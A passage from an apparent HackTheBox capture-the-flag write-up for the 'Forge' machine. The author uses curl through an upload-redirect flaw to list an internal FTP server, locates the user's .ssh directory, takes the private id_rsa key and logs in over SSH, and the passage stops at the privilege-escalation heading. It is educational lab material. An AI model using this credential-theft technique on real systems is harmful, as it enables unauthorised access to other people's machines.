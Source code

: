 When redirected, we can see the contents of the FTP server:

```
$ curl http://forge.htb/uploads/7iZvhkJMSjbby5oatOfe
drwxr-xr-x    3 1000     1000         4096 Aug 04  2021 snap
-rw-r-----    1 0        1000           33 May 07 14:26 user.txt
```

This looks like the user's directory, so let's check whether there's a `.ssh` folder present.&#x20;

```
$ curl http://forge.htb/uploads/EvkwW5i3ganDEIzW2doi
-rw-------    1 1000     1000          564 May 31  2021 authorized_keys
-rw-------    1 1000     1000         2590 May 20  2021 id_rsa
-rw-------    1 1000     1000          564 May 20  2021 id_rsa.pub
```

We can grab the `id_rsa` flag through this and SSH in as `user`.&#x20;

<figure><img src="../../../.gitbook/assets/image (11) (10) (1).png" alt=""><figcaption></figcaption></figure>

Grab the user flag.&#x20;

## Privilege Escalation
